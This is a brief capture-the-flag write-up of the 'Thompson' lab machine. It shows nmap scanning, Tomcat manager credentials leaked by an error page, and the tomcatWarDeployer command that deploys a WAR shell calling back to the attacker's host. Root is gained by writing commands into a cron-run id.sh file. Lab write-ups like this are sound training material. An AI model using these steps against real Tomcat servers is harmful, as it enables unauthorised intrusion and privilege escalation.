



# Thompson

---

## Reconnaissance

IP address : 10.10.164.148

## Scanning & Enumeration

### nmap Scan

```shell
nmap -A -T4 -p- -oN nmap/all_port 10.10.164.148
```

we scan result can is [here](nmap/all_port)

interesting open port are:

| port number | service | version |
| --- | --- | --- |
| 22 | ssh |  OpenSSH 7.2p2 |
| 8009 | ajp13 | Apache Jserv (Protocol v1.3) |
| 8080 | http | Apache Tomcat 8.5.5 |

### Apache Tomacat 8.5.5.5 Enumeration

* creds disclosure

by exploring http 8080 we got this page and when we try to login wihout credentials the app crash and disclose some credentials



after we log on the mangament interface.



## Exploitation

### Exploit Tomcat Manager

After looking around the internet a found a [way](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/) to exploit this.

I decide to go wihout msf. I choose to use [tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer)

```shell
 python tomcatWarDeployer.py  -U $USER -P $PASSWORD -H $LHOST -p $LPORT  $LHOST:$LPORT
 ```

### Privilege escalation

After enumerating the machine, we found that the id.sh file is executed as root



so all we have to do is puting our command to be executed inside this file.
